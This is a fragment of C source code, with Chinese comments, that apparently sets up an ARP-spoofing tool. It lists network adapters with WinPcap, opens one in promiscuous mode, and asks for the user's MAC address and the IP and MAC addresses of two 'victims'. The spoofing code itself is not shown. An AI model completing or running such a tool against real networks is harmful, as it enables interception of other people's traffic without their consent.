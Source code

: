 ```c
		exit(1);
	}
	printf("请在以下网卡中选择一个使用:\n");
	
	/* 打印网卡列表 */
	for (d = alldevs; d; d = d->next)
	{
		printf("%d. %s", ++i, d->name);
		if (d->description)
			printf(" (%s)\n", d->description);
		else
			printf(" (No description available)\n");
	}

	if (i == 0)
	{  //没有扫描到网卡
		printf("\nNo interfaces found! Make sure WinPcap is installed.\n");
		return -1;
	}

	printf("Enter the interface number (1-%d) to use: ", i);
	scanf_s("%d", &inum);

	/* 检查用户输入是否有效 */
	if (inum < 1 || inum > i)
	{
		printf("\nAdapter number out of range.\n");

		/* 释放所有网卡 */
		pcap_freealldevs(alldevs);
		return -1;
	}

	/* 跳到用户选中的网卡 */
	for (d = alldevs, i = 0; i < inum - 1; d = d->next, i++);

	/* 打开用户选中的网卡适配器 */
	if ((fp = pcap_open_live(d->name,		// name of the device
							 65536,			// portion of the packet to capture. It doesn't matter in this case 
							 1,				// promiscuous mode (nonzero means promiscuous)
							 1000,			// read timeout
							 errbuf			// error buffer
							 )) == NULL)
	{
		fprintf(stderr,"\nUnable to open the adapter. %s is not supported by WinPcap\n", argv[1]);
		return 2;
	}

	printf("please input self_mac address like aa-aa-aa-aa-aa-aa: ");
	scanf_s("%x-%x-%x-%x-%x-%x", &self_mac[0], &self_mac[1], &self_mac[2], &self_mac[3], &self_mac[4], &self_mac[5]);

	printf("please input victim1's ip like 1.1.1.1: ");
	scanf_s("%d.%d.%d.%d", &victim1_ip[0], &victim1_ip[1], &victim1_ip[2], &victim1_ip[3]);

	printf("please input victim1's mac like aa-aa-aa-aa-aa-aa: ");
	scanf_s("%x-%x-%x-%x-%x-%x", &victim1_mac[0], &victim1_mac[1], &victim1_mac[2], &victim1_mac[3], &victim1_mac[4], &victim1_mac[5]);

	printf("please input victim2's ip like 1.1.1.1: ");
	scanf_s("%d.%d.%d.%d", &victim2_ip[0], &victim2_ip[1], &victim2_ip[2], &victim2_ip[3]);

```